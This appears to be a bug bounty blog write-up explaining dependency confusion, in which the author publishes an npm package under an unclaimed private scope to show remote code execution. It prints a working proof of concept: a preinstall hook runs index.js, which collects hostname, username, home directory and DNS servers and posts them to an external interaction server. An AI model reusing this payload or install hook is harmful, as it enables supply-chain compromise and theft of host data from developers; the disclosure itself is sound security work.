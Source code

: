 ```yaml
---
layout: post
title: Remote Code Execution through Dependency injection using Burpsuite Extension
date: 2023-08-19 15:08 +0530
---
```


# Remote Code Execution using Dependency Confusion

## Introduction

Dependency Confusion is a security vulnerability that affects software dependencies in the software development process. It occurs when a public package manager installs an internal or private package with the same name as an external public package. An attacker can exploit this vulnerability by uploading a malicious package to the public package repository.

## Discovery

I was testing a bug bounty target when I noticed that the extension [JS-Miner](https://portswigger.net/bappstore/0ab7a94d8e11449daaf0fb387431225b) flagged a dependency issue in the target application. The issue involved a JavaScript file that referenced an organization called **private-progrm-widget/widget1**. However, this organization was not found in the NPM registry. An attacker can create a fake package that is named `private-progrm-widget` and then create a module name `widget1` and upload that to the NPM registry. When the target application tries to install this package, it will actually install the attacker's malicious code.

For the proof of concept, I created the following `index.js` and `package.json` files and published them to [npmjs.com](http://npmjs.com/) under the name **private-progrm-widget/widget1 module** :

```jsx
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "chehzb52vtc0000bsfaggeze9iwyyyyyb.oast.fun",
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();

```

```json
{
  "name": "@private-progrm-widget/widget1 module",
  "version": "5.0.4",
  "description": "null",
  "main": "index.js",
  "scripts": {
    "test": "echo \\"Error: no test specified\\" && exit 1",
    "preinstall": "node index.js"
  },
  "keywords": [],
  "author": "",
  "license": "ISC",
  "dependencies": {
    "@private-progrm-widget/widget1": "^5.0.4"
  }
}

```

When a user installs this module, it retrieves their username and current working directory. After waiting for a while, the following HTTP calls were logged to my [interact.sh](http://interact.sh/) server, confirming the execution of the `index.js` file.

![Remote%20Code%20Execution%20using%20Dependency%20Confusion%20bbc9d0cfc912465883f0d0f3d55ffa68/Screenshot_2023-05-23_at_5.20.20_PM.png](Remote%20Code%20Execution%20using%20Dependency%20Confusion%20bbc9d0cfc912465883f0d0f3d55ffa68/Screenshot_2023-05-23_at_5.20.20_PM.png)

Reference: [https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)